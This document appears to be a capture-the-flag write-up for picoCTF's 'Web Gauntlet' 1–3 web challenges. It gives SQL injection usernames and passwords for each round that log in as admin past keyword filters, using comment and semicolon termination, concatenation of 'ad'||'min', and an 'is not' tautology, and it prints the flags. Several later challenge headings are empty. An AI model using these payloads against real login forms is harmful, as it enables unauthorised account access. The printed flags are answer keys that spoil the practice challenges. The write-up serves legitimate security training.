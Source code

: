 # Challenges   

<br>

## A. <a href = "https://play.picoctf.org/practice/challenge/88?page=1&search=web%20gaun">Web Gauntlet</a>

<pre>
A login page is given along with a page filter.php. 
When any username and password are entered, a SQL query appears in the background of the page. 
Our aim is to take admin access for which username must be <b>admin</b>. 
This is indeed a SQL injection problem.
</pre>

* #### Round 1
  **Filter used -** ```or```    
    
  ```SELECT * FROM users WHERE username='admin' AND password='admin'```     
  when username and password are **admin**.    
  
  We need the query to be    
  ```SELECT * FROM users WHERE username='admin';```    
  
  For this we can enter the username as  
  ```admin'--``` or ```admin'/*``` or ```admin';```.    
  
  ```--``` and ```/*``` comments the rest of query while ```;``` ends it.

* #### Round 2
  **Filter used -** ```or and like = --```

  we can enter the username as  
  ```admin'/*``` or ```admin';``` again.    

* #### Round 3
  **Filter used -** ```or and = like > < --```     

  we can enter the username as  
  ```admin'/*``` or ```admin';``` again.
   
* #### Round 4
  **Filter used -** ```or and = like > < -- admin```

  This one is a tricky one as now the word **admin** has been filtered.
  We need to find a way so that we can enter the word **admin**.
  One way is to make **admin** as concatenation of 2 strings, let **ad**
  and **min** but i tried many combinations like ```'ad'+'min'```, using ```concat()```,
  using ```union``` but they didn't seem to work.
  Finally ```ad'||'min';``` worked which uses ```||``` as concatenation.
   
* #### Round 5
  **Filter used -** ```or and = like > < -- union admin```

  Since filter does not block the last username, it will still work.
  Enter ```ad'||'min';```

  *filter.php* gives the flag ***picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}***     

<br>   

## B. <a href = 'https://play.picoctf.org/practice/challenge/174?page=1&search=web%20gaun'>Web Gauntlet 2</a>   
<pre>
A similar login page and a page filter.php are given.
</pre>
**Filter used -** ```or and true false union like = > < ; -- /* */ admin```   
Username can be taken as ```ad'||'min``` but since there is no way to end the query,
we need to find a way to make the password *true*.    
One such way is to use ```is not``` which returns true.    
The password can be taken as ```1' is not '2```.    
It works and *filter.php* gives the flag ***picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}***     

<br>

## C. <a href = "https://play.picoctf.org/practice/challenge/128?page=1&search=web%20gaun">Web Gauntlet 3</a>
<pre>
Again similar login page and a page filter.php are given. Since no new filter is added, username and password
from previous problem works fine.
</pre>
**Filter used -** ```or and true false union like = > < ; -- /* */ admin```      

username - ```ad'||'min```      
password - ```1' is not '2```        

<br>

## Irish-Name-Repo 1
## Irish-Name-Repo 2
## Irish-Name-Repo 3
## JaWT Scratchpad
## Secrets
## Client-side-again
## Who are you?
## IntroToBurp
## Java Script Kiddie 
## Java Script Kiddie 2
